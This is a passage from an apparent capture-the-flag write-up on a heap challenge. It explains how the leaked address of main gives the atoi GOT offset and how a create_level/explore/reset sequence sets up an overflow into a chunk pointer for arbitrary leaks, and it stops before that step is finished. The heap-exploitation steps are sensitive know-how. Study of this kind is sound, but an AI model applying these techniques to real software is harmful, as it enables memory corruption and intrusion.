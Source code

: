 Before we go deep into talking about leaking, let's talk about what we have in hand:

- `.text` address leak

```
    puts("Welcome to the heap-like game engine!");
    printf("A welcome gift: %p\n", main);
```

yes we got a gift. This can be used to calculate the runtime `@plt` address of `atoi` and leaks it.

```
0x55c573011038] atoi@GLIBC_2.2.5 -> 0x7ff1137d74a0 (atoi) ◂— sub rsp, 8

Dump of assembler code for function main:
   0x000055c57300e662 <+0>:     push   rbp

pwndbg> x/x 0x55c573011038 - 0x000055c57300e662
0x29d6: Cannot access memory at address 0x29d6
```

Therefore, runtime `atoi@plt` would always be `main_addr + 0x29d6`.

#### [](https://hackmd.io/@n-mwvy8eQb-Bn5y9Gx3jAg/BJWDb2wYkl#leaking "leaking")

#### leaking

Here's a step by step guide on how to leak arbitrary addresses:

```
create_level(0)  
create_level(1) 
create_level(2) 

explore(1)
create_level(0)
reset()
```

First, create three `levels` and we go into the second `level`. The reason why we need a third level is because of:

```
if (prev == curr) {
	puts("We encourage game creativity so try to mix it up!");
        return;
}
```

Due to `prev = level;` in `create_level`, `prev` points to the the lastest `level` created within a `level`. ANd after a simple `explore(1)` in the above specific example, we moves from `curr` to the second chunk. Therefore, if we do not create another third chunk, `prev = curr` would happen.

Anyways, after successfully moving to the second chunk and that `prev != curr`, we can create a `level` inside the second chunk (`level`). Lastly, we `reset` back to the starting chunk, so that we can move into the first chunk to overflow into the first pointer of the second chunk we have just created. Here's how it looks like:
